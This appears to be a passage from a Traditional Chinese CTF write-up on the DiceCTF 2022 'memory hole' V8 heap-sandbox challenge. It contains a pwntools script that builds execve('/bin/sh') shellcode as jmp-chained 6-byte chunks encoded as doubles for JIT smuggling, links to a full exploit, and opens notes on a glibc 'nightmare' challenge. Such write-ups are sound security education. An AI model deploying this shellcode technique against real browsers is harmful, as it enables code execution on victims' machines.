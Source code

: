 

之後只要透過 aaw 蓋掉 `JSFunction` code 使其執行到我們構造的 shellcode chain 即可，附上產生 shellcode 的腳本，實際 exploit 參考 [Mem2019 的 github](https://github.com/Mem2019/Mem2019.github.io/blob/master/codes/memory-hole-1984.js)：

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'

binsh1 = 0x0068732f
binsh2 = 0x6e69622f

shellcodes = [
    f"push {binsh1} ; pop rax",
    f"push {binsh2} ; pop rdx",
    "shl rax, 0x20 ; xor esi, esi",
    "add rax, rdx ; xor edx, edx ; push rax",
]
jmp = asm("jmp .+14")
final = asm("mov rdi, rsp ; push 0x59 ; pop rax ; syscall")

for sc in shellcodes:
    sc_asm = asm(sc)
    assert(len(sc_asm) <= 6)
    sc_asm = sc_asm.ljust(6, b'\x90') + jmp
    print(hex(u64(sc_asm))[2:])
print(hex(u64(final))[2:])

# https://www.binaryconvert.com/convert_double.html
"""
1.95538254221075331056310651818E-246
1.95606125582421466942709801013E-246
1.99957147195425773436923756715E-246
1.95337673326740932133292175341E-246
2.63489895655547273676039775372E-284
"""
```



參考資料：

- [[DiceCTF 2022] - memory hole](https://blog.kylebot.net/2022/02/06/DiceCTF-2022-memory-hole)
- [Dice CTF Memory Hole: Breaking V8 Heap Sandbox](https://mem2019.github.io/jekyll/update/2022/02/06/DiceCTF-Memory-Hole.html)



### nightmare

> Glibc version 為 2.34，當初在嘗試 2.31 時因為 `_r_debug` 距離 binary 的 `link_map` 只有 0x30 的大小，寫入時容易覆蓋到 pointer，因此最後使用 2.34 的 Glibc，但是一些利用的概念應該是可以在 Glibc 2.31 中運作，至少到無限迴圈寫入還可以。

